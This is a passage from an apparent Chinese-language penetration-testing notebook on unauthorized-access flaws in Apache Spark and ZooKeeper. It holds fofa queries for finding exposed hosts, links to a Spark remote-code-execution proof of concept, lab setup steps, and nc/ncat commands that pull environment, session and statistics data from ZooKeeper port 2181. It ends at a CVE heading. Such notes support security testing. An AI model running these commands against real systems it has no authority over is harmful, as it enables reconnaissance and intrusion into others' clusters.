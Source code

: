 > 官网 : https://spark.apache.org/

> fofa : app="APACHE-Spark"

**未授权访问漏洞**
- 概述

    如果管理节点未启动 ACL (访问控制) ,我们将可以在集群中执行任意代码.

- 相关文章
    - [Apache Spark 未授权访问漏洞](https://vulhub.org/#/environments/spark/unacc/)
    - [某大厂红队评估_之_Apache Spark打点](https://mp.weixin.qq.com/s/XTXuZAZL9PFQzV36sVD9oQ)

- POC | Payload | exp
    - [aRe00t/rce-over-spark](https://github.com/aRe00t/rce-over-spark)

---

## ZooKeeper

Apache Zookeeper 是美国阿帕奇（Apache）软件基金会的一个软件项目，它能够为大型分布式计算提供开源的分布式配置服务、同步服务和命名注册等功能。

> fofa : app="APACHE-ZooKeeper"

**未授权访问漏洞**
- 概述

    Zookeeper 的默认开放端口是 2181。Zookeeper 安装部署之后默认情况下不需要任何身份验证，造成攻击者可以远程利用 Zookeeper，通过服务器收集敏感信息或者在 Zookeeper 集群内进行破坏（比如：kill 命令）。攻击者能够执行所有只允许由管理员运行的命令。

- 相关文章
    - [ZooKeeper 未授权访问漏洞](https://blog.csdn.net/qq_23936389/article/details/83826028)
    - [攻击大数据应用:ZooKeeper](http://www.polaris-lab.com/index.php/archives/41/)

- 搭建环境
    ```bash
    wget https://mirrors.tuna.tsinghua.edu.cn/apache/zookeeper/zookeeper-3.4.14/zookeeper-3.4.14.tar.gz
    tar -xzvf zookeeper-3.4.14.tar.gz
    cd zookeeper-3.4.14/conf
    mv zoo_sample.cfg zoo.cfg
    ../bin/zkServer.sh start
    ../bin/zkCli.sh -server 127.0.0.1:2181  # 连接 server
    ```

- 利用
    ```bash
    echo envi|nc [ip] 2181      # 打印有关服务环境的详细信息
    echo dump |ncat [ip] 2181   # 列出未完成的会话和临时节点
    echo reqs |ncat [ip] 2181   # 列出未完成的请求
    echo ruok |ncat [ip] 2181   # 测试服务器是否运行在非错误状态
    echo stat |ncat [ip] 2181   # 列出关于性能和连接的客户端的统计信息

    ./zkCli.sh -server [ip]:port
    ```

**CVE-2014-0085 ZooKeeper 信息泄露漏洞**
- 简介
